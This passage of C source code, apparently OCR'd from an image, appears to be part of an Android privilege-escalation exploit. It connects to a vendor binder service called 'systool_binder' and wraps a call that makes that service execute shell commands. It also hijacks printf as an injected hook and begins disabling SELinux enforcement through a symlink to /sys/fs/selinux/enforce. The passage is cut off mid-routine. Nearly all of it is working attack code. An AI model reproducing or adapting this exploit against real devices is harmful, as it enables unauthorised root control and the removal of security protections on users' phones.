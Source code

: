 ```
        return -1;
    }
    char b[0x200];
    struct binder_io a;
    struct binder_io c;
    bio_init(&a, &b, 0x200, 4);
    bio_put_uint32(&a, 0);
    bio_put_string16_x(&a, "android.os.IServiceManager");
    bio_put_string16_x(&a, "systool_binder");
    int status = binder_call(bs, &a, &c, 0, 2);
    if (status == 0) {
        int status2 = bio_get_ref(&c);
        if (status2 != 0) {
            target = status2;
            binder_acquire(bs, status2);
        }
        binder_done(bs, &a, &c);
    }
    g_binder_state = bs;
    return 0;
}

void systoolExecShellCmdV2(char* src) {
    struct binder_io msg;
    struct binder_io reply;
    char buf[0x200];
    bio_init(&msg, buf, 0x200, 4);
    bio_put_uint32(&msg, 0);
    bio_put_string16_x(&msg, "SystoolBinder");
    bio_put_uint32(&msg, 3); // cmd
    bio_put_uint32(&msg, 1); // subcmd
    bio_put_uint32(&msg, 1); // num arguments
    bio_put_string16_x(&msg, src);
    int status = binder_call(g_binder_state, &msg, &reply, target, 18);
    if (status == 0) {
        int ret1 = bio_get_uint32(&reply);
        int ret2 = bio_get_uint32(&reply);
        binder_done(g_binder_state, &msg, &reply);
        printf("ExecShellCmdV2: ret1=%d ret2=%d\n", ret1, ret2);
    }
}

int executed = 0;

int printf(const char* __fmt, ...) {
    if (executed)
        return 0;
    executed = 1;

    pid_t pid = getpid();
    fprintf(stderr, "[*] Hello from PID %d\n", pid);
    char linkbuf[0x100];
    readlink("/proc/self/exe", linkbuf, 0x100);
    fprintf(stderr, "[*] /proc/self/exe is pointing at %s\n", linkbuf);

    binder_init();

    // prep
    system("rm /tmp/monitor.bin");

    fprintf(stderr, "[*] disabling fs selinux\n");
    system("ln -s /sys/fs/selinux/enforce /tmp/monitor.bin");
    system("echo -n '0' > /data/local/tmp/zero");
```